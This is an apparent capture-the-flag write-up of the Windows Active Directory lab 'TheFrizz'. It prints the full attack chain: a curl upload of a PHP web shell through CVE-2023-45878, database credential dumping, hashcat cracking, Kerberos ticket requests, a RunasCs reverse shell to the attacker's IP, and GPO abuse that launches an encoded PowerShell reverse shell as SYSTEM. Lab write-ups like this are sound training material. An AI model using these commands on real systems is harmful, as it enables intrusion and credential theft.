


TheFrizz
TheFrizz was a challenging Windows Active Directory box that began with an unauthenticated arbitrary file write vulnerability in a Gibbon LMS web application. Exploitation of CVE-2023-45878 was achieved using a crafted curl request to upload a PHP web shell, granting initial remote code execution on the Domain Controller. Post-exploitation enumeration revealed a config.php file containing database credentials, which were used to query the database and extract a salted SHA256 password hash for the user f.frizzle. The hash was successfully cracked using Hashcat, yielding plaintext credentials.
With Kerberos authentication enforced on the network, I obtained a Ticket-Granting Ticket (TGT) for f.frizzle and gained interactive shell access via SSH. Manual enumeration revealed deleted archives in the Recycle Bin, which were downloaded using scp. One archive contained a configuration file with a Base64-encoded password. After enumerating domain users, the password was validated against the m.schoolbus account by successfully requesting a TGT.
When direct SSH access for m.schoolbus failed due to a GSSAPI issue, I pivoted back to the initial web shell. I uploaded and executed the RunasCs.exe tool to obtain an interactive shell as the m.schoolbus user. Analysis of this user's privileges showed membership in the Group Policy Creator Owners group, presenting a clear path to domain dominance. I leveraged this privilege by creating a new Group Policy Object (GPO) and using SharpGPOAbuse to inject a malicious immediate scheduled task. After linking the GPO to the Domain Controllers OU and forcing a policy update with gpupdate /force, the task executed a Base64-encoded PowerShell reverse shell, granting a shell as NT AUTHORITY\SYSTEM and completing the privilege escalation chain.
User flag
Nmap scan reveals quite a few ports. SSH on port 22 is a surprise, since this is a Windows machine.
Gibbon LMS RCE
I started my enumeration with the website located on port 80.
It seems to be an elementary school website. When hovering over the stall login button, an interesting link is revealed at the bottom left.
Gibbon LMS is an open-source school management platform. After clicking the button, I'm redirected to a login page, which also discloses the Gibbon version.
Searching for the applicable CVEs returned a few results, one of them being CVE-2023-45878, an arbitrary file write vulnerability.
https://nvd.nist.gov/vuln/detail/CVE-2023-45878
https://herolab.usd.de/security-advisories/usd-2023-0025/
The second article shows and explains a way of exploiting this vulnerability. The endpoint accepts img, path, and gibbonPersonID as POST parameters. I'll craft a curl command that satisfies all 3, using the payload from the linked article.
As explained in the article, the passed img data will be decoded and written to the location depicted in the path parameter.
curl -X POST http://frizzdc.frizz.htb/Gibbon-LMS/modules/Rubrics/rubrics_visualise_saveAjax.php -H "Host: frizzdc.frizz.htb" -d "img=image/png;asdf,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2NtZCddKTsgPz4K" -d "path=test1.php" -d "gibbonPersonID=0000000001"

I can now successfully run commands on the DC.
Next, I'd like to get a shell on the box. For that, I'll use a powershell reverse shell. However, because it'll be used as a part of the URL, it'll have to be URL-encoded to convert spaces and special characters safely.
I started a listener in a different terminal and ran the curl command.
Enumerating the Gibbon database
It contains database details. Since XAMPP is installed, I can use mysql.exe to look into the Gibbon database. The executable is located under C:\xampp\mysql\bin\mysql.exe
Gibbon stores its user information under the gibbonperson table. I'll also add the -E flag for a clear view of the data.
.\mysql.exe -u MrGibbonsDB -p"MisterGibbs!Parrot!?1" -e "use gibbon; select * from gibbonperson;" -E
I combined the password and the hash into one line so that I can crack it with hashcat.
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
Looking at the example hashes, the fitting modes would be 1410 and 1420, depending on whether the salt or the pass is first in the file.
https://hashcat.net/wiki/doku.php?id=example_hashes
hashcat -m 1420 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
f.frizzle | Jenni_Luvs_Magic23
Connecting to the machine via SSH
Remembering the note about kerberos being enforced, I used impacket-getTGT to get a ticket for f.frizzle.
impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/f.frizzle:Jenni_Luvs_Magic23
With this ticket, I tried to remote into the machine with evil-winrm, but that failed.
SSH was enabled on port 22, so I'll try that next.
ssh f.frizzle@frizz.htb -k
The -k switch here is for using kerberos auth.
Root flag
Before using automated tools, I quickly looked through the DC manually as f.frizzle. I looked for DPAPI credentials, any custom scripts and other regular things to look out for.
Extracting the deleted archives
One of those would be the recycle bin, inside which there was a directory belonging to f.frizzle.
Both of these can be downloaded using scp.
scp f.frizzle@frizz.htb:'C:/$RECYCLE.BIN/S-1-5-21-2386970044-1145388522-2932701813-1103/$RE2XMEG.7z' .
I extracted both using 7z. Only the second archive was unzipped, because the one starting with IE was just plain data.
Inside the .ini file, I found a base64-encoded password.

? | !suBcig@MehTed!R
Finding a valid user with the new password
Since kerberos auth is enforced, I can't just do a password spray here. Instead, I will look at what users are on the domain first.

There are 2 high-value users. v.frizzle and m.schoolbus. Since there are only 2, I'll check the password against them manually by trying to request a TGT.
impacket-getTGT -dc-ip 10.10.11.60 frizz.htb/m.schoolbus:'!suBcig@MehTed!R'

m.schoolbus | !suBcig@MehTed!R
Connecting to the box as m.schoolbus
While trying to SSH into the machine as m.schoolbus, I began getting unexpected errors related to GSSAPI auth.
Which I could not fix. Evil-winrm was not working either. Because of that, I returned to my first shell as the web user.
From there, I downloaded RunasCs.exe from my box and executed it to get a shell as m.schoolbus.
.\RunasCs.exe m.schoolbus "!suBcig@MehTed!R" powershell.exe -r 10.10.16.70:9002
Getting a system shell via GPO abuse
M.schoolbus is in the Group Policy Creator Owners, which means that they can create Group Policy Objects and link them to objects.
I can use SharpGPOAbuse from the sharp collection to make this easy.
https://github.com/FSecureLABS/SharpGPOAbuse/blob/master/README.md
Before that, I need to create a new GPO to abuse.
New-GPO -Name malicious
I'll link this GPO to the domain controllers OU.
Now, I'll take the .ps1 reverse shell from the 1st step. Its encoding needs to be changed from UTF-8 to UTF-16LE, because it'll be passed to powershell via the -e flag, which expects this encoding. Then, I'll encode the result with base-64, placing everything onto a single line.
iconv -f UTF-8 -t UTF-16LE shell.ps1 | base64 -w 0
I'll run SharpGPOAbuse with the --AddComputerTask flag. This should give me system shell on the DC once the changes are applied.
.\sharpgpo.exe --AddComputerTask --TaskName "Updates" --Author "NT AUTHORITY\SYSTEM" --Command "C:\Windows\System32\cmd.exe" --Arguments "/c powershell.exe -nol -nop -w hidden -e <BASE64>" " --GPOName malicious --Force
The changes can then be applied immediately by using gpupdate /force
Rooted!